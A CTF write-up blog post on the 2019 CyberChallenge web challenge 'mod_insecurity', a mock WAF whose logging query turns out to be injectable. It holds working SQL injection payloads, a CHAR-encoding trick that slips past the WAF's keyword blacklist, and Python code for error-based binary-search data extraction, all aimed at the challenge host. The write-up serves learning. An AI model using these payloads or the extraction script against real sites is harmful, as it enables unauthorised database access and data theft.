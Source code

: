 ```yaml
---
setup: |
  import Layout from '../../layouts/BlogPost.astro'
  import Picture from '../../components/Picture.astro'
title: Mod_insecurity ctf writeup - cyberchallenge 2019
publishDate: 2022-06-10
description: This is an old writeup for the web challenge mod_insecurity in the 2019 CyberChallenge ctf
---
```


This was one of the web challenges for the cyberchallenge ctf that took place in Italy in 2019.
I had a lot of fun solving it, and at the time i also drafted a writeup for it
but i never got around publishing it until now


## the challenge

> mod_insecurity 2.0 is a web application firewall (WAF) module fo the NGINX reverse proxy. It provides automatic SQLi protection using smart heuristics and the latest advancements in machine learning and blockchain technologies.
> modinsecurity.cyberchallenge.it

By visiting the link, we are presented with a simple 'SaaS landing page template', that repeats the same marketing pitch that was
in the challenge description. There is also a 'demo' section that says:

> Demo:
> You are already running it!
> Try to attack this page and see all your attempts fail!

And sure enough, at the end of the page there is a contact form. It's the only interactive
element on the website, so it's clear that we 
have to use it to perform some kind of sql injection

The form makes a POST request to the same origin, `modinsecurity.cyberchallenge.it`,
with a couple of parameters: username, email, phone, and message

## Looking for a vulnerability

After a couple of attempts with burp, i managed to trigger the waf by entering
`-- 'or 1=1` in one of the form fields


<Picture src="modinsecurity-waf" height={450} alt="A bright red web page showing an error message: Your request have been blocked! We detected an attept to attack this website.  mod_insecurity online protection™ blocked your request.  Your request have been logged. Logged requests: 17265 " />

<br/>


The challenge didn't provide any backend code, so it was time to formulate
an hypothesis on how the backend works.

I created a simple python script to automate the form submission, so that all the
tests could be easily documented and reproduced just by changing the `q` variable


```python
import requests

#this triggers the waf
q = " -- ' or 1=1"

url = 'http://modinsecurity.cyberchallenge.it/'
myobj = {
        'name': q,
        'email': "asd",
        'phone': "asdas",
        'message': "aasdasd"
        }
x = requests.post(url, data = myobj)
print(x.text)
```

After some trial and error, i managed to find a working hypothesis

```python
# only specific form fields are logged when they are detected as dangerous
# when a string is logged, ' is replaced with \'
# could be something like
# INSERT INTO log '$query', 'asd'

# WORKS! this triggers the waf AND a real mysql error.
q="\\' -- ' or 1=1 "
#therefore the query cannot be
#INSERT INTO log 'asdasd', '$data'
#INSERT INTO log 'asdasd', '\\' -- ' or 1=1 '

#The idea now is to find a query at the sx of --
#that won't trigger an sql error
q="\\') -- ' or 1=1 "
#this doesn't throw an sql error, therefore the query is probably
#INSERT INTO logs (asd, asdsd) VALUES (213, '$ata')
#INSERT INTO logs (asd, asdsd) VALUES (213, '\\') -- ' or 1=1 ')

q="\\',12) -- ' or 1=1 "
#this payload confirms the hypothesis, since sql returns a new error code:
# 1136 (column count doesnt match value count)
# this fits the theory that the query is
#INSERT INTO logs (asd, asdsd) VALUES (213, '$ata')
#INSERT INTO logs (asd, asdsd) VALUES (213, '\\',12) -- ' or 1=1 ')
```

The waf has a blacklist of dangerous words, that is tested against each form input.
When an input matches the blacklist (it can be something as simple as ` --' or 1`)
The error page is returned, and the offending query is logged.
The logging process is the following:

- get the offending forminput data
- replace any `'` with `\'` in the data
- execute the sql query:

```sql
INSERT INTO logs (col1, col2) VALUES (timestampprobably, '$data')
```

where $data is replaced with the actual forminput data, without a prepared statement.
We have our sql injection.

> Fun fact, not really relevant: inserting a semicolon in the query payload
> caused an interesting runtime error: 
>` bad result: failed to send query: cannot send query in the current context: 2: nil: nil.`
> A quick google search reveals the
>  [lua library](https://github.com/openresty/lua-resty-mysql/blob/master/lib/resty/mysql.lua)
>  used to write the challenge,
> and a quick glance at the [code](https://github.com/openresty/lua-resty-mysql/blob/908521368e95a302d06430ed1772e3fdd1e86216/lib/resty/mysql.lua#L1267) shows that the error cannot be exploited, it's just
> an issue with multi query statements. But this confirms that modinsecurity
> is indeed a nginx plugin

## Exploiting the sql injection

now that we have an sql injection, we need to exploit it. Unfortunately, the only
output that we can get from the backend is sql error codes, without any description.

After some considerations, i decided to try a boolean-based injection, using the
returned sql error codes:

```python
#this payload returns an error 1048: column can't be null
#only if the condition inside the if is true
a = "if(1=1, null, char(43))"
q= f"asd\\' LIKE {a} ) -- ' or 1=1 "

# An example in practice
a="(select CHAR(45) from information_schema.tables limit 70,1)"
q= f"asd\\' LIKE {a} ) -- ' or 1=1 "
#returns error 1048 if the query defined in 'a' didn't return any row
```

With this confirmed working, finding the flag is just a matter of writing
some sql queries and some boilerplate code that will help us with the binary search.

Let's start from the boilerplate code:

```python

def S(string):
    """ turns a string into a quoteless string that bypasses waf rules """
    return "CONCAT("+charify(string)+")"

def charify(string):
  string_without_first_char = string[1:]
  first_char = string[0]
  result = "CHAR({})".format(ord(first_char))
  for c in string_without_first_char:
    result += ",CHAR({})".format(ord(c))
  return result

def exec(query):
    """ Execute a sql query
    return the sql error, or 0 if none was generated
    1048: cant be null
    1064: syntax error
    0:    no sql error returned
    """
    url = 'http://modinsecurity.cyberchallenge.it/'
    myobj = {'name': '', 'email': '', 'phone': query, 'message': ''}
    x = requests.post(url, data = myobj)
    if "MySQL Error" in x.text:
        errline = x.text.split("\n")[0]
        errCode = errline.split(" ")[-1][0:4]
        return errCode
    return "0"

def binsearch(binTest):
    """ Decorator function, that facilitates binary serch queries 
    @argument: a function(char givenChar, int givenPosition) that must execute
               a query and return true if the char at the given position 
               is < of the given char
    @returns: a function(int startIndex=0) that will execute a binary search,
              printing the result in real time
    """
    def retFunc(startIndex=0):
        def binWalk(i):
            span = []
            for c in range(ord(','), ord('}')+1):
                span.append(chr(c))
            while len(span) >= 2:
                middle = len(span)//2
                if binTest(span[middle], i):
                    span = span[:middle]
                else:
                    span = span[middle:]
            return span[0]

        res = ""
        retCommaCount = 0
        i = startIndex
        while retCommaCount < 5:
            i += 1
            print("searching letter ant index ", i)
            resC = binWalk(i)
            if resC == ",":
                retCommaCount += 1
            else:
                retCommaCount = 0
            res  += resC
            print("==found== ",res)
    return retFunc

```

Yes, this is a lot of boilerplate code, and yes this is painful to read.
But it's stuff i wrote long ago, and hey it works
